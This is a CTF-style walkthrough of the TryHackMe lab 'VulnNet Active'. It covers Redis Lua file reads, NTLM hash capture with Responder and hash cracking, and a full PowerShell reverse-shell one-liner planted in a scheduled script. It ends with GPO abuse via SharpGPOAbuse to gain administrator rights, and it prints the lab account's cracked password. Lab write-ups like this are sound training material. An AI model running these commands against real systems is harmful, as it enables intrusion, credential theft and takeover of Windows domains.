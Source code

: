 # 9 - AD - VulnNet Active

Room link --> [https://tryhackme.com/room/vulnnetactive](https://tryhackme.com/room/vulnnetactive)

Nmap Scan returns: `sudo nmap -sSVC -p- -v -Pn -T4 10.10.102.28`&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
6379/tcp  open  redis         Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49822/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

### Redis (port 6379)

[https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
# automatic enumeration.
nmap --script redis-info -sV -p 6379 <IP> -Pn
msf> use auxiliary/scanner/redis/redis_server

# mannual enumeration.
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools.
10.10.66.252:6379> INFO # gives some info about the server-client.
10.10.66.252:6379> CONFIG GET * # we got a username here: [104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"]

```
{% endcode %}

So the current user name is `enterprise-security`.

### Exploitation <a href="#exploitation-of-redis" id="exploitation-of-redis"></a>

Going through the HackTricks list, we find an [article](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) that shows how to exploit earlier versions of Redis (our version 2.8.2402 is amongst them):

{% hint style="warning" %}
“Redis can execute Lua scripts (in a sandbox, more on that later) via the “EVAL” command. The sandbox allows the dofile() command (WHY???). It can be used to enumerate files and directories. No specific privilege is needed by Redis… If the Lua script is syntaxically invalid or attempts to set global variables, the error messages will leak some content of the target file”
{% endhint %}

#### Reading files <a href="#reading-files" id="reading-files"></a>

As explained in the linked article, the command we use is the following:

{% code overflow="wrap" lineNumbers="true" %}
```bash
redis-cli -h 10.10.245.19 eval "dofile('<PATH TO FILE>')" 0
```
{% endcode %}

We try to read some of the [common windows files](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/file\_inclusion\_windows.txt) that are usually used for Local File Inclusion.

Let's read the "user.txt" file as asked in the question:

{% code overflow="wrap" lineNumbers="true" %}
```bash
10.10.66.252:6379> EVAL "dofile('C:/Users/enterprise-security/Desktop/user.txt')" 0
```
{% endcode %}

#### SMB credentials capturing[#](https://blog.raw.pm/en/TryHackMe-VulnNet-Active-write-up/#SMB-credentials-capturing) <a href="#smb-credentials-capturing" id="smb-credentials-capturing"></a>

LUA `dofile()` allows us to request a file but since we are on Windows it allows us to request a share as well for example: `dofile('//host/share')`.

So if we launch a SMB server with Responder on one hand and force the server to request a fake share on the other hand, we should be able to capture a NTLM hash.

#### Step 1

we first set up a listener using `Impacket's Responder.py`.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# listener.
sudo responder -i tun0

# request for a fake share.
redis-cli -h EVAL "dofile('//10.18.88.214/fakeshare')" 0
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

We captured the NTLMv2 hash for "enterprise-security" user account, we can crack it:

Using haiti to detect the hash type:&#x20;

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt` - crackin with hashcat.

`john hash.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt` - cracking with john.

{% hint style="info" %}
sand\_0873959498 <--> enterprise-security
{% endhint %}

We have valid credentials now to enumerate SMB.

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient -L \\\\10.10.117.3\\ -U 'enterprise-security'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption><p>3</p></figcaption></figure>

Connecting to the "Enterprise-Share"

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient \\\\10.10.117.3\\Enterprise-Share -U enterprise-security
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption><p>4</p></figcaption></figure>

We viewed the .ps1 script file, and see its a scheduled script.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dkingws)-[~]
└─$ cat PurgeIrrelevantData_1826.ps1 
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```
{% endcode %}

We could replace this with a Powershell Oneliner to get a reverse shell.

{% code overflow="wrap" lineNumbers="true" %}
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.18.88.214',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption><p>5</p></figcaption></figure>

And we got a shell.

#### Priv Esc

We have "SeImpersonatePrivilege", so we could use Potatoe attack or use BloodHound to find another path.

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption><p>6</p></figcaption></figure>

I used Metasploit and got "Nt Authority".

#### 2nd Method for Priv Esc:

After gaining initial access using the Powershell script, we can use "SharpHound.exe" to gather Domain info, then feed the data to BloodHound to give us shortest path to Admin or Domain Admin.

{% code overflow="wrap" lineNumbers="true" %}
```bash
.\SharpHound.exe -c All
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption><p>7</p></figcaption></figure>

&#x20;We can use BloodHound to analyse the found data: Immediately, BloodHound gives us the shortest path from our current user `enterprise-security` to the `Administrator`. Apparently, we do have `GenericWrite` Permissions to one of the `GPO`s - namely `security-pol-vn`.

Copy the .zip file to the Share folder, then download to kali for use in BloodHound.

`powershell cp .\20230907143943_BloodHound.zip C:\Enterprise-Share\20230907143943_BloodHound.zip` .

We can use the [SharpGPOAbuse.exe](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master) binary to exploit the "GenericWrite" permission on that GPO object.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption><p>8</p></figcaption></figure>

We can do a `gpupdate /force` - to force update the settings, then when we do a `net users enterprise-security` - we should be added to the Administrator groups now.

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption><p>9</p></figcaption></figure>

Note we are not able to go into the Administrator folder from the shell, but we can access the Administrator folder via the SMB share.

`smbclient \\10.10.92.208\C$ -U enterprise-security` .

DONE !
